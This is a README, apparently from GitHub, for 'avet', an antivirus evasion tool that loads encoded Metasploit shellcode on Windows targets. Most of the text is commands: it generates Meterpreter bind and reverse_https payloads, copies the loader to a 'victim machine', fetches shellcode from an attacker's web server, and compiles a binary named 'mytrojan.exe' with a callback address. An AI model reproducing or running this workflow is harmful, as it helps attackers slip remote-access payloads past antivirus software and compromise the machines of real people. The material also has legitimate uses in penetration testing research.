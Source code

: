 AntiVirus Evasion Tool
======================

Please note that this tool was developed based on Backtrack 5, which I still use for some things. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. Unfortunately I do not have the time to enhance avet or to develop a version that is running with kali. But I think nevertheless it might be interesting for some people. 

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus eavasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver
- for encoding the shellcode the tool format.sh and sh_format are included
- Tools used: Based on Backtrack 5, wine, MinGW, metasploit. Works fine on different systems.


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt

Copy sc_clean.txt & avet.exe to the victim machine.

$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 

On the victim machine:
c:\whatever>avet.exe -f shellcode.txt


Example 2, loading shellcode from a webserver:

Attackers machine:
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.

$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 

On the victim machine:
c:\whatever>avet.exe -u yourserver/sc_clean.txt


How to use make_avet
--------------------
Compile if needed:
$ gcc -o make_avet make_avet.c

Example 1, compile shellcode into the .exe file:

$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet.exe -f sh_clean.txt
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o mytrojan.exe avet.c


Example 2, make an .exe file that downloads a shellcode from a webserver:

$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o mytrojan.exe avet.c

Check out the other options as well:
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help


Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (echo "">defs.h), then compile with:
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o avet.exe avet.c

Have a look for build.sh for easier handling.